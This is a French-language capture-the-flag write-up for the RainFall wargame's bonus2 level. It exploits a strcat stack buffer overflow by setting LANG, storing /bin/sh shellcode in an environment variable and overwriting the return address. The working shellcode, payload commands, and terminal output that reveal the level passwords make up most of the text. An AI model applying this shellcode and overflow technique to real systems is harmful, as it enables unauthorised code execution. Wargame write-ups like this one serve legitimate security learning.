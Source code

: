 # Bonus2:

pass : `579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245`

## Sources :
```c=
#include <string.h>
#include <stdlib.h>

int language = 0;

int		greetuser(char *name) {
	char str[72];  // ebp-0x48 == esp+0x10
	switch (language) {
		case 0:
			strcpy(str, "Hello ");
			break;
		case 1:
			strcpy(str, "Hyvää päivää ");
			break;
		case 2:
			strcpy(str, "Goedemiddag! ");
			break;
		default:
			break;
	}
	strcat(str, name);
	return (puts(str));
}

int		main(int ac, char **av) {
	char str[76];  // esp+0x50
	char *lang;  // esp+0x9c

	if (ac != 3)
		return 1;

	memset(str, '\0', 19);  // 0x13

	stpncpy(str, av[1], 40);  // 0x28
	strncpy(str + 40, av[2], 32);  // x020
	lang = getenv("LANG");
	if (*lang) {
		if (!memcmp(lang, "fi", 2)) {
			language = 1;
		} else {
			if (!memcmp(lang, "nl",2)) {
				language = 2;
			}
		}
	}
	return greetuser(str);
}
```

## Recherche :

On remarque que si on a lang == "fi" ou "nl", alors dans `greetuser`, la première partie de `str` sera plus longue et on va segfault.

Faisons alors `export LANG="fi"`

Maintenant, on voit que l'`EIP` est réécrite à partir de 16 caractères sur le second argument.
On doit aussi bien mettre 40 caractères pour le premièr argument afin que le second soit écrit.

On va maintenant procéder comme pour le `bonus0` en mettant un shellcode dans une variable qu'on va export, puis en indiquant cette adresse lors de l'écrasement de l'`EIP`

On va fait mettre notre shell code dans un `env` `EXPLOIT` :
```
export EXPLOIT="`perl -e 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"'`"`
```
Dans `/tmp`, on va créer un programme pour récupérer l'addresse :
bonus2@RainFall:/tmp$ cat getenv.c
```c
#include <stdio.h>
#include <stdlib.h>

int     main(int ac, char **av) {
        printf("%s is %p\n", av[1], getenv(av[1]));
        return 0;
}
```

`gcc getenv.c -o bonus2`

```
bonus2@RainFall:/tmp$ ./bonus2 EXPLOIT
EXPLOIT is 0xbffff918
```

En retournant dans le `~`, on va pouvoir executer notre programme en appelant notre shellcode :
```sh
bonus2@RainFall:~$ ./bonus2 $(perl -e 'print "A"x40') $(perl -e 'print "B"x18 . "\x18\xf9\xff\xbf"')
perl: warning: Setting locale failed.
perl: warning: Please check that your locale settings:
        LANGUAGE = (unset),
        LC_ALL = (unset),
        LANG = "fi"
    are supported and installed on your system.
perl: warning: Falling back to the standard locale ("C").
perl: warning: Setting locale failed.
perl: warning: Please check that your locale settings:
        LANGUAGE = (unset),
        LC_ALL = (unset),
        LANG = "fi"
    are supported and installed on your system.
perl: warning: Falling back to the standard locale ("C").
Hyvää päivää AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBB▒���
$ whoami
bonus3
```

On est bon !

## Exploit :

```shell=
export LANG="fi"; export EXPLOIT="$(perl -e 'print "\x90"x50 . ""')

bonus2@RainFall:~$ export LANG="fi"
bonus2@RainFall:~$ export EXPLOIT="`perl -e 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"'`"
perl: warning: Setting locale failed.
perl: warning: Please check that your locale settings:
        LANGUAGE = (unset),
        LC_ALL = (unset),
        LANG = "fi"
    are supported and installed on your system.
perl: warning: Falling back to the standard locale ("C").
bonus2@RainFall:~$ cd /tmp/
bonus2@RainFall:/tmp$ ./bonus2 EXPLOIT
EXPLOIT is 0xbffff918
bonus2@RainFall:/tmp$ cd -
/home/user/bonus2
bonus2@RainFall:~$ ./bonus2 $(perl -e 'print "A"x40') $(perl -e 'print "B"x18 . "\x18\xf9\xff\xbf"')
perl: warning: Setting locale failed.
perl: warning: Please check that your locale settings:
        LANGUAGE = (unset),
        LC_ALL = (unset),
        LANG = "fi"
    are supported and installed on your system.
perl: warning: Falling back to the standard locale ("C").
perl: warning: Setting locale failed.
perl: warning: Please check that your locale settings:
        LANGUAGE = (unset),
        LC_ALL = (unset),
        LANG = "fi"
    are supported and installed on your system.
perl: warning: Falling back to the standard locale ("C").
Hyvää päivää AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBB▒���
$ whoami
bonus3
$ cd ../bonus3
$ cat .pass
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```
